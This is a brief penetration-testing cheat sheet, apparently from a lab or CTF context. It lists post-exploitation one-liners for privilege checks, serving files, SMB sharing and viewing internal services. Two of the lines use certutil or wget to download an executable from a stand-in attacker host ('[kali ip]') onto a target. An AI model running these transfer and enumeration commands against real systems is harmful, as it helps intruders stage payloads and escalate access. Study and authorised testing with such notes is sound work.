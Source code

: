 check windows user privileges -->whoami \priv
check linux user privileges -->sudo -l
http server -->python3 -m http.server
http server(receiving) -->certutil -urlcache -f http://[kali ip]:port/file.exe file.exe or
      -->wget "http://[kali ip]:port/filename.exe" -outfile .\filename.exe
smb server -->python3 smbserver.py share .
rlwrap -->read line wrap.it saves the typed commands.up and down arrow
internal services -->netstat -antlp